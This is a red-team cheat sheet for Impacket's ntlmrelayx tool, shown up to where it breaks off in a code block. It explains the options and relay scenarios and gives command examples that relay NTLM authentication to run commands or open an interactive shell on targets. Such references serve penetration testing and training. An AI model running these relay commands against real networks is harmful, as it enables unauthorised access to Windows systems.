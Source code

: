 # Index
- [[Red Team/4. Tool Guides/0. Incomplete/Tool Guides]]

## Impacket-NTLMRelayX

`NTLMRelayX` is a powerful tool used for relaying NTLM authentication, primarily in Windows environments. It allows attackers to intercept and relay NTLM authentication attempts to other systems, potentially gaining unauthorized access. This ultimate edition of the cheat sheet covers all aspects of `NTLMRelayX` usage, detailed command examples, and advanced penetration testing techniques.

## Basic Syntax
```bash
ntlmrelayx.py [options]
```

## Core Options
- `-h, --help`: Show help message and exit.
- `-t TARGET`: Target host(s) to relay to. Can specify multiple targets using commas or by defining a range (e.g., `TARGET/24`).
- `-tf TARGETSFILE`: File containing a list of targets.
- `-c COMMAND`: Execute a command on the target.
- `-e EXECUTABLE`: Specify an executable to run on the target.
- `-i`: Interactive mode. Spawns an interactive shell on the target if the relayed authentication is successful.
- `-smb2support`: Enable SMB2 support.
- `-rpc-smb`: Enable relaying to RPC over SMB.
- `-socks`: Start a SOCKS proxy server after a successful relay, useful for pivoting.
- `-debug`: Enable debug output for detailed logging.

## Relay Scenarios
- **SMB to SMB**: Relays NTLM authentication from one SMB server to another.
- **HTTP to SMB**: Relays NTLM authentication from an HTTP server to an SMB server.
- **SMB to LDAP**: Relays NTLM authentication from an SMB server to an LDAP server, useful for Active Directory attacks.
- **HTTP to LDAP**: Relays NTLM authentication from an HTTP server to an LDAP server.

# Commands and Use Cases

#### SMB to SMB Relay
This is the most common use case for `NTLMRelayX`, where an NTLM authentication request received on SMB is relayed to another SMB server.

1. **Basic SMB to SMB Relay**: Relays NTLM authentication to `<target_ip>` and runs the `whoami` command on the target.
    ```bash
    ntlmrelayx.py -t <target_ip> -c "whoami"
    ```
2. **Relay to Multiple Targets**: Uses a list of targets (`targets.txt`) to relay authentication attempts, executing the `net user /domain` command on each target.
    ```bash
    ntlmrelayx.py -tf targets.txt -c "net user /domain"
    ```
3. **Interactive Shell via SMB Relay**: Relays authentication and attempts to spawn an interactive shell on the target.
    ```bash
    ntlmrelayx.py -t <target_ip> -i
    ```
4. **Relay with SMB2 Support**: Enables SMB2 support for relaying NTLM authentication to a target that supports SMB2, executing the `ipconfig` command.
    ```bash